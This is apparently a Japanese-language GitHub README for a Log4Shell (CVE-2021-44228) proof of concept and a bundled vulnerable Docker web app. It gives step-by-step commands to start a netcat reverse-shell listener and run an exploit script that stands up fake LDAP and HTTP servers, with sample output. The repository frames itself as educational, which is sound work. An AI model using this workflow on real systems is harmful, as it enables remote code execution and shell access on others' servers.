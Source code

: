 # log4j-shell-poc
CVE-2021-44228(通称Log4shell)に対するPoC。  
最近、ElasticSearchや Minecraftなどで広く使われている Apacheのロギングライブラリlog4jに新たな脆弱性が発見されました。

このリポジトリでは、脆弱性のあるアプリケーションの例と、その脆弱性を利用したPoCの例を作成しています。

開発プロセスを示すビデオ
----------------------------------------

Vuln Webアプリケーション:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (古いスクリプト):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (古いスクリプト):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


概念実証(PoC)
----------------------

PoCとして、プロセスを自動化するPythonファイルを作成しました。


```bash
pip install -r requirements.txt
```
#### :


* netcatリスナーを起動して、リバースシェル接続を受け入れます。<br>
```py
nc -lvnp 9001
```
* エクスプロイトを起動します。 <br>
**Note:** この作業を行うには、解凍したjavaアーカイブの名前が `jdk1.8.0_20` であり、同じディレクトリにある必要があります。
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/NT25-CTF/log4j-shell-poc-ja

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send Exploit Code Port:1389

Listening on 0.0.0.0:1389
```

このスクリプトは、HTTPサーバーとLDAPサーバーをセットアップし、脆弱なパラメーターに貼り付けるために使用できるペイロードも作成します。 この後、すべてがうまくいけば、lportにシェルを取得する必要があります。 

<br>


脆弱性が含まれるアプリケーション
--------------------------

脆弱なWebアプリケーションにDockerfileを追加しました。 これは、以下の手順に従って使用できます。 
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
実行すると、localhost:8080でアクセスできます。

プロジェクトをさらに開発したい場合は、プロジェクトの開発に使用したIntellijIDEを使用できます。 また、作業を少し簡単にする構成ファイルがある`.idea`フォルダーも含まれています。 おそらく他のIDEも使用できます。 



jdkバージョンの取得
--------------------------------------

Exploitを作成した時点では、どのバージョンのJavaが動作し、どのバージョンが動作しないのかがはっきりしなかったため、Java 8の最も古いバージョンの1つである`java-8u20`で動作させることにしました。

```
> https://drive.google.com/file/d/1r8F3X2e2pCN5Iar62yG4M0H8HuBK_4by/view?usp=sharing
```

アーカイブをダウンロードして解凍すると、`java` といくつかの関連するバイナリが `jdk1.8.0_20/bin` の中にあります。  
**注意：** 動作させるためには、このリポジトリにjdkフォルダを同名で展開するようにしてください。

```
> tar -xf jdk-8u20-linux-x64.tar.gz

> ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

免責事項
----------
このリポジトリは、CVE-2021-44228へのワンクリックエクスプロイトを目的としたものではありません。 このプロジェクトの目的は、人々がこの素晴らしい脆弱性について学び、おそらく自分のアプリケーションをテストするのを助けることです（ただし、この目的のためのより良いアプリケーションがあります。 [https://log4shell.tools/](https://log4shell.tools/))

私たちのチームは、悪意のある活動に対するこのエクスプロイトの使用を支援または推奨しません。したがって、支援を求める場合は、ターゲットサービスを所有しているか、ペネトレーションテストを行う権限があることを証明するものを提供する必要があります。
